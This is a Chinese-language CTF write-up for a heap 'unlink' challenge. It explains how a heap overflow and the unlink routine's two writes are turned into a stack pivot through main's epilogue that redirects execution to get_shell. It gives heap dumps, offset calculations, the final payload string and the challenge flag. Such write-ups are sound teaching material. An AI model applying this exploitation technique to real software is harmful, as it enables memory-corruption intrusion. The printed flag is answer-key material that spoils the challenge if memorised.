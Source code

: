 ### unlink

这题模拟的堆溢出的题型，比实际中的少了很多保护，利用起来比较简单。

思路：堆溢出造成的 **有一定限制的任意地址写** ，具体写哪里，然后这个题有info leak，可以搞一下。

---

每个结构体是0x10大小，看一下堆结构

0x804b410:	0x0804b428(fd)	0x00000000   0x3636363636363636(input)  0x00000000	0x00000019
0x804b428:  0x0804b440(fd)	0x0804b410(bk)  0x00000000  0x00000000	0x00000000	0x00000019
0x804b428:  0xaaaaaaaa(fd)	0xbbbbbbbb(bk)  0x00000000  0x00000000	0x00000000	0x00000019
0x804b440:	0x00000000(fd)	0x0804b428(bk)	0x00000000	0x00000000  0x00000000	0x00000409

```
void unlink(OBJ* B){
	OBJ* BK;
	OBJ* FD;
	BK=B->bk;  BK = 0xbbbbbbbb
	FD=B->fd;  FD = 0xaaaaaaaa
	FD->bk=BK;  [0xaaaaaaaa+4] 写为 0xbbbbbbbb
	BK->fd=FD;  [0xbbbbbbbb] 写为 0xaaaaaaaa
}
```

---

这时候我有一个错误的思路，将栈地址上的main-ret写掉，有如下的exp

`print '6'*4*4 +'\xbc\xbc\xa1\xbf'+'\xeb\x84\x04\x08'`

将`addr(A)+0x28`写为`0x080484EB`

即0xaaaaaaaa = 0x0804866C; 0xbbbbbbbb = 0x080484EB;

然后发现不可以这么做，因为堆的地址每次都会变，gdb关掉了这个功能，所以需要重新弄一下

----

后来又想到一个问题，unlink是有两次写数据的，要让程序不崩掉，需要保证两处都是可以写的，上面我们的思路造成了两处写

```
stack[ret] = addr(get_shell)
addr(get_shell) = addr(stack[ret])
（省略offset）
```

get_shell在text段，显然不可以写入数据，此思路gg


只能写`fini_array`

使用这个命令`readelf -S unlink`
`[19] .fini_array       FINI_ARRAY      08049f0c 000f0c 000004 00  WA  0   0  4`

表示程序执行完了以后，跳到0x8048f0c

但还是之前的问题 addr(FINI_ARRAY) 与 addr(get_shell)的地址会相互写入对方的附近，显然text段是不可以写的

-----

**有写权限的段在IDA里ctrl+s是可以看的**

![pic0](pic0.png)

看来这题只能写栈和写堆，进行栈迁移，再使用ROP进行get_shell。

堆地址和栈地址均随机，好在这个题提供了这两个的位置。

1. 调用unlink的过程中，栈基本是不变的
		```
		push ebp
		mov ebp, esp
		xxx xxx
		leave  <---mov esp,ebp; pop ebp;
		retn
		```
	栈上存放的有【unlink-ebp, unlink-ret, main-ebp, main-ret】
	能控制的也只有unlink-ebp了，其他的感觉没啥大用

2. 一开始的思路是，先控制unlink-ebp，返回到main里ebp还在，在下一个leave的时候，即可写掉rsp。但是经过[Himyth](https://github.com/Himyth)指点，这个是不可用的，因为下文直接把rsp写掉了。并且给出了下一种思路。
3. 观察main函数，里面有一句push esp、pop esp类似的话，eip是从栈上拿的
		```
		mov ecx, esp
		push ecx
		xxx xxx
		call unlink <--- 控制ebp
		xxx xxx
		mov ecx, DWORD PTR [ebp-0x4] <--- 控制ecx = [ebp-4]
		leave <--- esp = ebp; pop ebp; <===不重要
		lea esp, [ecx-0x4] <--- main-ret 控制esp = ecx-4
		ret
		```
		我们可以将main-ret写掉，之后esp为我们写掉的数值，ret时候直接可以控制IP

-----

思路就用写掉esp的方法，从而在ret时候控制IP（即ROP）。之前思路错了那么多次也是惊呆了。

1. 计算offset

	stack:
		infoleak = 0xbfffef74;
		target = 0xbfffef58 <---target数值将来被写到ebp
		offset = -0x1C
	heap:
		infoleak = 0x804b410 <--addr(A)
		A->FD = base
		A->BK = base + 0x04
		input_string = base + 0x8
		B->FD = base + 0x18
		B->BK = base + 0x1C
		C->FD = base + 0x30
		D->BK = base + 0x34

2. 目标
		将stack_target写为堆上的的地址
		将堆布置好，将(ecx-4)写到堆上从而写到esp

3. 具体写入
		这里有一个注意的，我们写是从heap_base+8开始写的，不是从+0开始写的。
		[B->FD+4]被写为B->BK
		[B->BK]被写为B->FD
		**B->FD+4 == target**
		**B->BK == addr(x)** (x就是ebp被写入的值)
		`x, y` 需要满足的条件为在堆上
		**y == [x-4]** (mov ecx, [ebp-4])
		**esp == y-4** (mov esp, ecx-4)
		**[esp] = get_shell** (pop eip)
		==>
		令 x = heap_base + 0x50, y = heap_base + 0x54
		**B->FD = stack_infoleak - 0x1C - 4**
		**B->BK = heap_infoleak + 0x50**
		**[heap_base + 0x50 -8] = heap_infoleak + 0x58**
		**[heap_base + 0x50] = 0x080484ef**

4. 输入的string `'A'*4*4 + (stack_infoleak-0x20) + (heap_infoleak+0x50) + 'A'*0x2C + (heap_infoleak + 0x58) + 'AAAA' + addr(get_shell)`



flag
`conditional_write_what_where_from_unl1nk_explo1t`
